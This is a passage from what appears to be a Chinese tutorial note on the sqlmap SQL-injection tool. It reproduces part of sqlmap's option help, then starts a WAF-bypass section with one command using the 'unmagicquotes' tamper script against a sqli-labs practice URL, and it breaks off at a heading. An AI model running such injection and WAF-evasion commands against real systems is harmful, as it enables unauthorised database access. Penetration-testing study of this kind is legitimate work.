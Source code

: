     --encoding=ENCOD..  Character encoding used for data retrieval (e.g. GBK)
    --eta               Display for each output the estimated time of arrival
    --flush-session     Flush session files for current target
    --forms             Parse and test forms on target URL
    --fresh-queries     Ignore query results stored in session file
    --gpage=GOOGLEPAGE  Use Google dork results from specified page number
    --har=HARFILE       Log all HTTP traffic into a HAR file
    --hex               Use hex conversion during data retrieval
    --output-dir=OUT..  Custom output directory path
    --parse-errors      Parse and display DBMS error messages from responses
    --preprocess=PRE..  Use given script(s) for preprocessing (request)
    --postprocess=PO..  Use given script(s) for postprocessing (response)
    --repair            Redump entries having unknown character marker (?)
    --save=SAVECONFIG   Save options to a configuration INI file
    --scope=SCOPE       Regexp for filtering targets
    --skip-heuristics   Skip heuristic detection of vulnerabilities
    --skip-waf          Skip heuristic detection of WAF/IPS protection
    --table-prefix=T..  Prefix used for temporary tables (default: "sqlmap")
    --test-filter=TE..  Select tests by payloads and/or titles (e.g. ROW)
    --test-skip=TEST..  Skip tests by payloads and/or titles (e.g. BENCHMARK)
    --web-root=WEBROOT  Web server document root directory (e.g. "/var/www")

  Miscellaneous:
    These options do not fit into any other category

    -z MNEMONICS        Use short mnemonics (e.g. "flu,bat,ban,tec=EU")
    --alert=ALERT       Run host OS command(s) when SQL injection is found
    --beep              Beep on question and/or when vulnerability is found
    --dependencies      Check for missing (optional) sqlmap dependencies
    --disable-coloring  Disable console output coloring
    --list-tampers      Display list of available tamper scripts
    --no-logging        Disable logging to a file
    --offline           Work in offline mode (only use session data)
    --purge             Safely remove all content from sqlmap data directory
    --results-file=R..  Location of CSV results file in multiple targets mode
    --shell             Prompt for an interactive sqlmap shell
    --tmp-dir=TMPDIR    Local directory for storing temporary files
    --unstable          Adjust options for unstable connections
    --update            Update sqlmap
    --wizard            Simple wizard interface for beginner users

## waf绕过

### 语法

```sql
sqlmap -u http://192.168.1.137/sqli/Less-32/?id=1 --batch --tamper "unmagicquotes"
```

### 绕过参数

#### **apostrophemask.py**

